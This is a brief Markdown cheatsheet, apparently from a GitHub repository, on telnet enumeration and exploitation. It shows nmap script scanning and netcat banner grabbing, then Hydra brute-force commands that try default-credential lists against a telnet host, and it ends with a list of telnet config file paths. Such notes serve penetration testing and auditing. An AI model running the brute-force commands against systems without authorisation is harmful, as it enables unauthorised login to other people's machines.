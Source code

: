 # Telnet Exploitation and Enumeration Cheatsheet

## Nmap Vulnerability Script

```bash
nmap -n -sV -Pn --script "*telnet* and safe" -p 23 192.168.1.1
```

## Banner Grabbing

```bash
nc -vn 192.168.1.1 23
```

## Brute Force Telnet with Hydra

```bash
hydra -C /usr/share/seclists/Passwords/Default-Credentials/telnet-betterdefaultpasslist.txt telnet://192.168.1.1
hydra -C /usr/share/seclists/Passwords/Default-Credentials/telnet-phenoelit.txt telnet://192.168.1.1
```

## Common Telnet Configuration File Locations

```
/etc/inetd.conf
/etc/xinetd.d/telnet
/etc/xinetd.d/stelnet
